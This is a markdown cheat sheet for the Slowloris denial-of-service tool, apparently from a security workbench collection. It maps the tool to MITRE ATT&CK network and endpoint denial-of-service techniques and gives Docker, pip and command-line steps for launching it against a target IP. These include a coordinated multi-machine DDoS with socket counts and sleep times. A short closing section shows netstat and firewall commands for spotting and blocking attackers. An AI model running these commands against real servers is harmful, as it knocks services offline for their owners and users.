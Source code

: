 # Slowloris

**Keywords:** DDoS

## References

- [MITRE ATT&CK](https://attack.mitre.org/)

## Kill Chain

- Recon
- Exploit
- Escalate
- Lateral Movement
- Evade
- Action

## MITRE ATT&CK

### Tactics

- Reconnaissance
- Resource Development
- Initial Access
- Execution
- Persistence
- Privilege Escalation
- Defense Evasion
- Credential Access
- Discovery
- Lateral Movement
- Collection
- Command & Control
- Exfiltration
- Impact
  - T1498: Network Denial of Service
  - T1499: Endpoint Denial of Service

## Docker

### Network

```sh
docker network create workbench \
  --subnet 10.1.1.0/24
```

### Running

```sh
docker run -d \
  $(echo "$DOCKER_RUN_OPTS") \
  -h slowloris \
  --name slowloris \
  --network workbench \
  docker.io/aminvakil/slowloris:latest [ip-address] \
    -s 900
```

### Remove

```sh
docker rm -f slowloris
```

## CLI

### Installation

#### PIP

```sh
pip3 install Slowloris
```

### Usage

```sh
# DoS Attack
slowloris [ip-address] -s 900

# DDos Attack
slowloris [ip-address] -s 300 --sleeptime 3 # Machine 1
slowloris [ip-address] -s 400 --sleeptime 4 # Machine 2
slowloris [ip-address] -s 500 --sleeptime 5 # Machine 3
```

## Tips

### Listen Treads

```sh
netstat -ant | grep -E ':80|:443' | wc -l
```

### Prevent Attack with Uncomplicated Firewall (UFW)

```sh
#
sudo ufw enable

#
sudo ufw insert 1 deny from [ip-address]

#
sudo ufw status numbered

#
sudo ufw delete [number]
```
